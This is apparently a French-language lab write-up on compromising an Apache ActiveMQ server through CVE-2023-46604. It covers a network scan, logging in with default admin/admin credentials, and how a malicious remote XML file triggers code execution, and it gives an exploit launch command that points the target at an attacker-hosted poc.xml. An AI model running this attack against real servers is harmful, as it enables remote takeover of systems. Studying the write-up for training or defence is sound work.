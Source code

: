 
## ActiveMQ_2023

### Scan du Réseau
Pour ActiveMQ_2023, l'adresse IP assignée est `172.21.0.1`. Voici une capture d'écran illustrant le scan du réseau :

![activemq_2023_1](https://github.com/user-attachments/assets/0eb90016-ac2b-4920-b0f2-61c5d08576a2)

Grâce à ce scan, nous avons identifié que le port d'intérêt pour accéder à l'interface est le **8161**. Pour accéder à la console web, utilisez le lien suivant : [http://localhost:8161](http://localhost:8161).

### Version d'ActiveMQ
Pour déterminer la version d'ActiveMQ, connectez-vous à la console d'administration avec les informations d'identification par défaut :

- **Login** : `admin`
- **Mot de passe** : `admin`

![activemq_2023_2](https://github.com/user-attachments/assets/9e77e2fb-be08-46e1-84db-08ac8387d226)

### CVE Score
La vulnérabilité **CVE-2023-46604** est associée à cette version d'ActiveMQ.

![activemq_2023_cve](https://github.com/user-attachments/assets/d7a87a84-a605-4370-84e1-c7bf30a4d1b2)

## Stratégie de Compromission

[Stratégie de compromission](compromission2023.py)
[Stratégie de compromission xml](compromission2023.xml)

## Exploitation/Explication

### Objectif du Module
Le module utilise une vulnérabilité critique dans ActiveMQ, permettant l'exécution de code à distance (CVSS de 9.8 à 10.0). En envoyant un fichier XML malveillant, l'attaquant peut exécuter du code arbitraire et compromettre le serveur.

### Fonctionnement

1. **Connexion au Serveur** : Le script se connecte au serveur ActiveMQ via une connexion socket à l’adresse IP et au port spécifiés (ex. `61616`).

2. **Envoi du Payload** : Le script envoie un flux de données binaires contenant le nom d'une classe Java (`ClassPathXmlApplicationContext`) et l'URL d’un fichier XML malveillant (`poc.xml`).

3. **Chargement du Fichier XML** : Le serveur charge le fichier XML distant qui contient le code malveillant, permettant l'exécution de commandes sur le serveur ActiveMQ.

### Exemple d'Exploitation

Lancer l'attaque avec :

```bash
python3 exploit.py 127.0.0.1 61616 http://192.168.0.101:8888/poc.xml
```

### Impact
L'exploitation réussie permet à l'attaquant de prendre le contrôle du serveur, avec des impacts majeurs sur la confidentialité, l'intégrité et la disponibilité du système.

